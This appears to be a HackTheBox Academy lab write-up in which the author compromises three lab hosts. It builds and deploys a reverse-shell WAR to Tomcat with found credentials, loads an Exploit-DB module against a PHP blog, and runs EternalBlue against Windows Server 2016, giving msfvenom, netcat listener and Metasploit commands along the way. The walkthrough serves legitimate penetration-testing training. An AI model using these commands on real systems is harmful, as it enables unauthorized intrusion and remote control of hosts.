

# The Live Engagement
Credentials and Information:<br>
Foothold:
- IP: `10.129.204.126`
- Credentials: `htb-student:HTB_@cademy_stdnt!` (can be used by RDP)

 <br>
We need to exploit these 3 hosts with the Foothold PC.

## Approach
Through this exercise, I will be connected to the foothold machine.
```bash
xfreerdp3 /v:10.129.204.126 /u:htb-student /p:HTB_@cademy_stdnt! /dynamic-resolution
```
We find that there is an interesting file, `access-creds.txt`.<br>
Credentials obtained:
- `admin:admin123!@#` (to manage blog)
- `tomcat:Tomcatadm` (to manage Tomcat on apache)

### Host 1
First, we need to find the hostname of Host 1.<br>
On the foothold machine, we can perform an Nmap scan to obtain the hostname of Host 1.
```bash
sudo nmap -A 172.16.1.11
```
<br>
We can see that the hostname of Host 1 is `SHELLS-WINSVR`.

Host 1 appears to be a web server since it is hosting a web application on port 8080.<br>
Visiting `https://172.16.1.11:8080` on Firefox, we can see that the website runs on Tomcat, which is written in Java.

We see that there is a "Manager App" portion, but we require credentials to access it. Using the credentials from `access-creds.txt`, we successfully logged in to Tomcat Web Application Manager.

Looking around the page, I noticed that we can deploy a WAR file. <br>
 <br>
I will create a WAR java/jsp compatible web reverse shell payload.
The internal IP of the foothold machine is `172.16.1.5` through `ifconfig`.
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=443 -f war -o rev_shell.war
```
We will first start a listener on the foothold machine.
```bash
sudo nc -nlvp 443
```
Then, we upload and deploy `rev_shell.war`. <br>
To activate the WAR file, we can access `http://172.16.1.11/rev_shell`.

We then obtained a reverse shell on Host 1. <br>
<br>
We can then change directory to `C:\Shares` and find out that the directory located in `C:\Shares` is `dev-share`.

### Host 2
Host 2 appears to be a blog when we access `blog.inlanefreight.local`.

To obtain the Linux distribution that Host-2 is running, we can perform an Nmap scan.
```bash
nmap -A blog.inlanefreight.local
```
 <br>
We can see that Host-2 is running `Ubuntu`. Host 2's IP is `172.16.1.12`.

Upon looking through the blog, I noticed a post regarding an exploit on the blog itself. <br>
<br>
Looking through the `50064.rb` exploit code, I found out that the reverse shell is written in PHP.

We can use `locate 50064.rb` to check if the foothold machine has the exploit code, and there is!<br>
We will need to move the exploit code to `/modules/exploits` under the Metasploit-Framework.
```bash
cp /usr/share/exploitdb/exploits/php/webapps/50064.rb /usr/share/metasploit-framework/modules/exploits/50064.rb
```
We can then start up Metasploit and execute the exploit.
```bash
msfconsole
```
```
msf6 > reload_all				## Load 50064.rb
msf6 > use 50064.rb
```
We will configure the options of the module to fit our needs.
<br>
We managed to obtain a meterpreter shell, and subsequently obtained the contents of `/customscripts/flag.txt`.


### Host 3
We first perform a Nmap scan on the target.
```bash
nmap -A 172.16.1.13
```
<br>
We can see that the hostname for Host 3 is `SHELLS-WINBLUE`.

<br>
We can see Host 3 is running Windows Server 2016, EternalBlue is well known to be used against Windows Server version 16 or earlier.

Let's check if Host 3 is indeed vulnerable to EternalBlue with Metasploit's auxiliary module.
```bash
msfconsole
```
```
## Determine if Host 3 is vulnerable to EternalBlue
msf6 > use auxiliary/scanner/smb/smb_ms17_010
```
We configure the module's options to fit our purpose.
<br>
We find out that Host 3 is indeed vulnerable to EternalBlue. So, let's carry out the exploit for EternalBlue on Host 3 to gain a shell on it.
```
msf6 > use exploit/windows/smb/ms17_010_psexec
```
We will configure the necessary options again and execute the exploit.
<br>
We successfully obtained a shell on Host 3 and we can print the necessary contents.

